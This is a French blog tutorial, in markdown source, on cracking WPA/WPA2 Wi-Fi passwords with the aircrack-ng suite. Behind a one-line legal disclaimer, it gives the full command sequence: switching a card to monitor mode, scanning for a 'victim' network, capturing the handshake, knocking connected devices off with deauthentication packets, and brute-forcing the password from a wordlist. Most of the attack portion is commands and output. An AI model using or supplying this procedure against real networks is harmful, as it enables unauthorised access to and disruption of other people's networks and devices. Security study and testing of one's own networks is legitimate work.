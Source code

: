 ```yaml
---
layout: post
title:  "How to use aircrack-ng for bruteforce Wi-fi WPA password"
---
```


# Comment bruteforce un réseaux wifi WPA/WPA2 avec aircrack-ng

# Disclaimer

Tout ceci est a un but purment éducatif, rentré dans un système informatique sans l'authorisation de son propriétaire est interdit par la loi française. 

Bon tutoriel.

# Matériel 

Pour ce tutoriel il faut :

- Être sous un système d'explotation Unix
- Avoir une carte réseaux wifi
- Une [Wordlist](https://weakpass.com/wordlist) (liste de mot contenant des mots de passes)

# Instalation

Vous pouvez retrouvé comment installé aircrack-ng directement sur le répository officiel de aircrack-ng : -> [ici](https://github.com/aircrack-ng/aircrack-ng)​

Ou Suivant votre système d'exploitation :

Debian / Ubuntu / Mint  :
```
sudo apt-get install aircrack-ng
```

Fedora : 
```
sudo dnf install aircrack-ng
```

une fois installé vous pouvez retrouver la suite d'outils aircrack-ng sur votre ordinateur.

(pour cet exemple j'ai écrit le mot "air" et appuyer plusieurs fois sur tab pour que mon terminal affiche tout les outils de la suite, installé sur mon ordinateur)

```
root@yourid:~$ air
airbase-ng              aireplay-ng             airolib-ng
aircrack-ng/            airmon-ng               airserv-ng
airdecap-ng             airodump-ng             airtun-ng
airdecloak-ng           airodump-ng-oui-update  airventriloquist-ng

```
# Managed to Monitor

Par default votre carte wifi est en mode 'Managed', ce qui vous permet de recevoir la connexion internet.

Nous allons donc passer la carte wifi en mode 'Monitor', qui permet d'observé et d'envoyer des signaux.

Pour ceci il faut tout d'abord identifier le nom de ça carte wifi, en utilisant la commande iwconfig

```
root@yourid:~$ iwconfig
wlp00s0   IEEE 802.11  ESSID:"Wifi-ESSID"  
          Mode:Managed  Frequency:5.18 GHz  Access Point: XX:XX:XX:XX:XX:XX   
          Bit Rate=666.0 Mb/s   Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          Link Quality=70/70  Signal level=-40 dBm  
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:37  Invalid misc:2628   Missed beacon:0

```
Le nom de la carte wifi est donc : *wlp00s0*

Nous allons utiliser l'outil 'airmon-ng' qui permet justement de changer la carte wifi en mode monitor

```
root@yourid:~$ airmon-ng start [nom de la carte wifi]
```
pro tips: il est possible que cet commande ne marche pas, plusieurs possibilité: 
 - le message : Run it as root, s'affiche il faut donc avoir les droit super utilisateur.
 - un message d'aide s'affiche : vous n'avez surment pas mis le bon nom de carte wifi
 - un message d'erreur s'affiche : il se peut que des processus peuvent perturber l'opération, dans ce cas il faut faire la commande *airmong-ng check kill*
 - ça ne marche pas, il est possible que votre carte wifi n'est pas compatible avec le mode monitor

une fois cet étape terminer, vous n'avez plus de connexion internet, c'est normal.

Nous allons vérifier si la carte wifi est bien passé en mode monitor:

```
root@yourid:~$ iwconfig
wlp00s0mon  IEEE 802.11  Mode:Monitor  Frequency:2.457 GHz  Tx-Power=0 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
```

Comme vous l'observez le nom de la carte wifi à changer pour rajouter 'mon' derniere son nom.

# Scanner et trouver une victime.

Nous allons scanner les réseaux wifi au alentours et utilisé l'outil 'airodump-ng', qui est un outil de capture de paquet wifi.

```
root@yourid:~$ airodump-ng [nom de la carte wifi]
```
*attention de pas oublier le "mon" derriere le nom de votre catre wi fi :)*

<img src="../../../assets/airodump.png" />

*Sur cet image mon nom de réseaux wifi est IEWYUAH*

Plusieurs information sont afficher, tel que :
- BSSID (Basic Service Set Identifiers) : qui correspond à l'addresse MAC du routeur.
- PWR (Power) : la puissance du signal
- #Data : les données transmise
- #/s : S pour speed la rapidité de l'envoie des données.
- CH : pour le channel
- ENC : pour encryption, donne l'info sur le protocole de chiffrement.
- AUTH : information sur le type d'authentification.
- ESSID (Electronic Service Set Identifiers) : qui correspond aux nom du routeur.

```
root@yourid:~$ airodump-ng –c[id chanell de votre victime] -w [nom du fichier de capture (qui va être crée)] -d [BSSID de votre victime] [nom de votre carte wifi]
```
pro tips: il est possible que un message d'erreur s'affiche, il est surment du au channel de votre carte wifi. 
Comme vous pouvez le voir sur l'image si dessus en haut a gauche, au dessus du BSSID, il y a écrit 'CH 1', votre carte wifi change de chan. 
Il ne faut pas hésiter a relancer la commande plusieurs fois avant que celle ci marche !

<img src="../../../assets/airodump-cpt.png" />

*STATION correspond à l'adresse MAC de la personne connecté*

Attention à ne partir de ce moment, vous êtes en train d'enregister des captures réseaux sur votre ordinateur, il ne faut donc pas fermée votre terminal sous peine de stopper la capture réseaux. 


# Get the handshake

Pour pouvoir réussir a intercepté le mot de passe wifi de votre victime, il faut capturer le handshake. 
Le Handshake est l'échange de validation entre le client et le routeur.

Nous allons utilisez airplay-ng pour injecter des paquets a une ou plusieurs machines sur le réseaux pour les forcer à se déconnecter (Attaque par déni de service).

```
root@yourid:~$ aireplay-ng --deauth 0 –a [BSSID de votre victime] -c [Adress MAC d'un apareil connecté au réseaux de la victime] [nom de votre carte wifi]​
```
Quand la machine victime va se reconnecter aux réseaux automatiquement vous allez récuperer le handshake.
Une fois l'attaque lancé vous pouvez la stopper quand vous le désirez.

# Le Bruteforce !

Une fois le handshake capturé, vous pouvez remettre votre carte wifi en mode managed.​

```
root@yourid:~$ airmon-ng stop [nom de votre carte wifi]
```

si vous refaite la commande *iwconfig*, vous allez remarquer que votre carte wifi à repris son nom initial.

Pour la dernière étape nous allons essayer de comparer le hash du handshake aux hash d'une liste de mot de passe, si cette opération réussie nous avons le mot de passe du wifi victims.​

```
root@yourid:~$ aircrack-ng [nom du paquet réseaux capture (files.cap)] -w [wordlist]
```

Si le mot de passe est présent dans la wordlist : 
Dans mon cas, j'ai testé en rajouter le mot de passes a la fin d'une wordlist de 7000 mots de passes, cela ma pris moins de 5 secondes pour le trouver.

<img src="../../../assets/aircrack-get-psswd.png" />

Dans le cas contraire :

<img src="../../../assets/aircrack-fail.png" />

# Conclusion 

Voici une méthode pour crackez les mots de passes wifi, en informatique rien n'est magique.


# Remerciement

Merci beaucoup d'avoir lu mon tutoriel, j'éspere que ça vous à plus.

Si vous voyez des fautes d'orthographe, ou autre, n'hésitez pas à m'envoyer un mail avec la correction :smiley:

